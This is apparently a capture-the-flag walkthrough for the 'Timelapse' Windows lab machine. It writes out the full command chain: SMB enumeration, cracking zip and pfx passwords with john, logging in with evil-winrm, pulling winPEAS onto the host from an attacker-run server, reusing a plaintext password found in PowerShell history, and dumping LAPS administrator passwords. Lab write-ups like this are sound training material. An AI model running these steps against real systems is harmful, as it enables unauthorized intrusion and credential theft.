 # Timelapse

Timelapse is a CTF that lets you take a dive into windows and start getting your hands prepared for powershell. Enough research and you'll get a better understanding of pfx files, LAPS and understanding powershell logs.

## Enumeration

Start off with an nmap scan:

```
nmap -Pn -sC -sV -v <TARGET_IP>
```

![Image](images/1.png)

Here, the SMB port is open, which means there could be some misconfiguration which can be exploited. 

```
smbclient -L 10.10.11.152      
Password for [WORKGROUP\lolboi]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Shares          Disk      
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.11.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Here, I have listed every SMB share available on the sevrer. Out of all these, only `Shares` has something of value (I checked so you don't have to). You can connect and view the items with `smbclient //<TARGET_IP>/Shares` and le tthe password be empty.

There are 2 directories revealed, `Dev` and `HelpDesk`.

```
smb: \> ls Dev/
  .                                   D        0  Mon Oct 25 23:40:06 2021
  ..                                  D        0  Mon Oct 25 23:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 19:46:42 2021

		6367231 blocks of size 4096. 2466336 blocks available
smb: \> ls HelpDesk/
  .                                   D        0  Mon Oct 25 19:48:42 2021
  ..                                  D        0  Mon Oct 25 19:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 18:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 18:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 18:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 18:57:44 2021

		6367231 blocks of size 4096. 2466336 blocks available
```

These lead to 2 interesting ideas,
1. Target machine has some form of WinRM that we can use to connect (using evil-winrm)
2. Target machine has LAPS on it (Local Administrator Password Solution - Password management for domain connected devices).

Tip: You can download the files in an SMB share with `get <FILENAME>`

## Exploit 

Lets try to unzip `winrm_backup.zip`. It is a password protected zip so we have to run the following command to crack the password and open it.

```
zip2john winrm_backup.zip > hash.txt | john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

The password is revealed to be `supremelegacy`. On extraction, we get a file called `legacyy_dev_auth.pfx`. A pfx file contains the private key and the SSL certificate(public key) and is used to authenticate a user. They are also password-protected. Fortunately, John can crack pfx file passwords with the following command:

```
pfx2john legacyy_dev_auth.pfx > hash.txt 

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

The password is revealed to be `thuglegacy`. Although, you can't just view the private and public keys, you will have to extract them from the pfx (Check out this blog: https://wiki.cac.washington.edu/display/infra/Extracting+Certificate+and+Private+Key+Files+from+a+.pfx+File )

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out priv.key -nodes

openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out pub.cert 
```

Open your preferred text editor and remove the excess text in both files.

Lastly, to get a foothold, we can use the following code to log into the machine:

```
evil-winrm -S -c pub.cert -k priv.key -i 10.10.11.152
```

Run `type ../Desktop/user.txt` to get the user flag.

## Priv-Esc

Download winPEAS from here: https://github.com/carlospolop/PEASS-ng/releases/download/20220717/winPEASx64.exe

Use `python -m http.server <PORT>` to make a http server to transfer the winPEAS executable. You can use `Invoke-WebRequest -Uri http://<IP_ADDR>:<PORT>/winPEASx64.exe -OutFile <FILENAME>` to get the executable onto the target machine with the name of <FILENAME>. Run winPEAS with `./<FILENAME>`.

```
PS history file: C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

winPEAS shows this Powershell history file, which we can use to see what commands have been run before on the target machine.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

Here, we can see that the above block of code is used to execute code as the `svc_deploy` (You can log in as svc_deploy but we can do whatever we need using the `-scriptblock {}` parameter)

Run the following commands:

```
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami /groups}
```

Here you can see that `svc_deploy` is a part of a group called `TIMELAPSE\LAPS_Readers`. Passwords can be exported from LAPS using the command `Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime` (Read more information here: https://smarthomepursuits.com/export-laps-passwords-powershell/)

So, your complete command should look like this:

```
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}
```

With this, you will get the Administrator account password. You can log into the Administrator account with the following command:

```
evil-winrm -S --user Administrator --password '<PASSWORD>' -i 10.10.11.152
```

You can get the root.txt with the command: `type C:\Users\TRX\Desktop\root.txt`
